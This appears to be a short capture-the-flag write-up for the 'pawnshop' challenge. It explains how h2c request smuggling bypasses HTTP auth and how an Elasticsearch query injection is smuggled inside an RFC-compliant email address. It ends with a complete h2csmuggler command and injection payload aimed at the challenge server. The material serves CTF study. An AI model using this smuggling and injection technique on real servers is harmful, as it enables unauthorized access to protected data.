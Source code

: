 ```
p(a)wnshop - 478pts - 9 solves - Author: rekter0

pawnshop is the leading hacking tools marketplace, an important auction holding a flag is happening. We want to know if listed items are not leaked before auction ends.

Challenge

Attachment

Note:
- flag is lowercase
- .htpasswd is not meant to be bruteforced, one running in remote is different


First Blood
1. RadboudInstOfPwning
2. Black Bauhinia
3. Never Stop Exploiting
```

1- h2c request smuggling to bypass http auth
2- Elastic search injection through email compliant RFC

you can use https://github.com/BishopFox/h2csmuggler

./h2csmuggler.py -x https://pawnshop.2021.3k.ctf.to:4443/backend/ "http://localhost:8080/admin.py?action=lookup&mail='*\" AND value:*http2_4nd* OR value:\"'@aa.com"